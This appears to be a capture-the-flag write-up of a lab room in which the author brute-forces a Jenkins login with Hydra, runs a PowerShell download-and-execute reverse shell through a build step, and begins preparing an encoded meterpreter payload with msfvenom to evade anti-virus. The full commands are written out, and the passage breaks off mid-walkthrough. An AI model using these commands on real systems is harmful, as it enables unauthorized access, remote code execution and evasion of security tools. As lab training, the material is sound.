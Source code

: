Donations to alfred@wayneenterprises.com are greatly appreciated. 

But port 8080 has a login form.


## Attack
I am going to use [Hydra](https://www.kali.org/tools/hydra/) with:
```
hydra -s 8080 10.10.12.34 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -L /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt -P /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt -t 10 -w 30
```

I know to attack  /j_acegi_security_check because I found it from the request via [Burpsuite](https://portswigger.net/)
And I get <font color=red> admin:admin</font>

Next the room tells me:

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: 
```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port ```


So I logged in
Went to
- My views
- click project
- Configure 
- scrolled down to the Build section and pasted the command
- powershell iex (New-Object Net.WebClient).DownloadString('http:// [ local ip]:[ local port for webserver]/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [local port] -Port [local port for netcat]
-  Apply and Save

Then I downloaded [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
On the same folder I opened two connections
The first was a local python server, so that the Jenkins know where to find the file. I did it with
`python3 -m http.server [local port for webserver]`

I also opened a connection with netcat to handle the target machine when the script gets executed
`nc [local ip] [local port for netcat]`

Then I went back to Jeckins and I pressed Build Now and got the connection on netcat.

Navigated to C:\Users\bruce\Desktop and got my flag `79007a09481963edf2e1321abd9ae2a0`
## Switching Shells

To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`  

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`

```